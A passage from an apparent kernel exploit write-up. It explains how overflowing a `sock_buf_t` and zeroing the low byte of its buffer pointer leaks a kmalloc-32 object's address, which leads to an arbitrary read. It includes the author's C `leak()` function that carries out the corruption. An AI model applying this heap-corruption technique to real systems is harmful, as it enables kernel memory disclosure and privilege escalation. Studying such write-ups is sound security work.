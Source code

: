 	![Heap layout after corrupting the buffer pointer](images/corrupted_ptr.png "Heap layout after corrupting the buffer pointer")

	Note that this is an example but there are no guarantees that the `sock_buf_t`
	the buffer points to after setting its LSB to 0x00 is exactly 2 buffers before 
	our corrupted `sock_buf_t`.

4. Read the data from the buffer through `socks_recv`. We should now learn the 
contents of the `sock_buf_t`, including a pointer to itself.

From here, we learn the address of a kmalloc-32 object close to the overflown 
buffer (at most 0xe0 bytes earlier). We can now use the arbitrary read to find 
exactly where the overflown buffer was by searching for the data written in step 
2 above.

This is how I do that in my exploit:

```c
uint64_t leak(void) {
  int ret;
  *((uint64_t *) (ptr + 0xff8)) = 8;

  /* Make sure there are 0x20 bytes available to be read */
  char buf[0x20] = { [0 ... 0x1f] = 'A' };
  ret = sock_send(fds[3], buf, 0x20);
  
  /* Smash `size` and set LSB of buffer to 0x00 */
  ret = sock_send(fds[0], ptr + 0xff8, 9);

  /* Read 0x20 bytes from modified buffer pointer */
  ret = sock_recv(fds[2], buf, 0x20);
  return *((uint64_t *) (buf + 8));;
}

```